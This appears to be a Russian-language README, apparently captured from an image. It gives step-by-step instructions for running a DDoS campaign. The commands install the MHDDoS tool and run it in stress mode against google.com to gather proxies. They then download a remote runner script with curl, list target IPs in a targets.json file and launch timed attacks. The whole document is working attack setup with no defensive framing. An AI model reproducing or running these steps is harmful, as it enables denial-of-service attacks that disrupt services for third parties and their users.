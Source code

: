 1. Установите инструментарий
```
sudo apt-get update
sudo apt-get install -y jq python3-pip python-pyasn1
pip install pyasn1==0.4.6
```

2. Установите на сервере MHDDoS
```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip install -r requirements.txt
```

3. Выполните холостой запуск для подргужения прокси
```
 python3 start.py STRESS https://google.com 0 1 0 1 1
 ```

4. установите раннер
```
curl https://raw.githubusercontent.com/rxitech/k6clean/master/runner.sh > runner.sh
```

5. Создайте targets.json файл с целями в следующем формате
```
{
 "127.0.0.1": "localhost",
 "172.217.19.78": "google.com",
}
```

6. Запустите раннер передав файл с целями и продолжительность выполнения в секундах
```
./runner.sh targets.json 300
```

